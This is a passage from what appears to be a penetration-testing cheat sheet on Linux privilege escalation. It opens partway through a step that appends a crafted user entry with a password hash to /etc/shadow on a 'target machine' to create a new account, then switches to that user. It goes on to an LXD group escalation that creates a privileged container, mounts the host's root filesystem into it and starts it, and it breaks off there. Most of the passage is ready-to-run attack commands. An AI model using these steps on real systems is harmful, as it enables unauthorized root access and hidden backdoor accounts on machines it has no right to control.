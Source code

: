         Copy the output hash.

    2. **Add New Line to /etc/shadow in Target Machine**

        You need to do as root privileges.

        ```sh
        echo '<new-user-name>:<generated-password-hash>:19115:0:99999:7:::' >> /etc/shadow
        ```

    3. **Switch to New User**

        To confirm, switch to generated new user.

        ```sh
        su <new-user>
        ```

<br />

## LXC/LXD

LXD is a container management extension for Linux Containers (LXC).

1. **Check if You are in the Lxd Group**

    If you belong to the Lxd group, you may be able to the root privileges.

    ```sh
    groups
    id
    ```

2. **Mount the Directory**

    List all images.

    ```sh
    lxc image list
    ```

    Create a new container from an image which you get by "lxc image list".

    ```sh
    lxc init <target-image-name> <arbitrary-container-name> -c security.privileged=true
    ```

    Mount the host's **/** directory onto **/mnt/root** in the container you created.

    ```sh
    lxc config device add <created-container-name> <arbitrary-device-name> disk source=/ path=/mnt/root recursive=true
    ```

3. **Start the Container**

    ```sh
    lxc start <created-container-name>
    ```
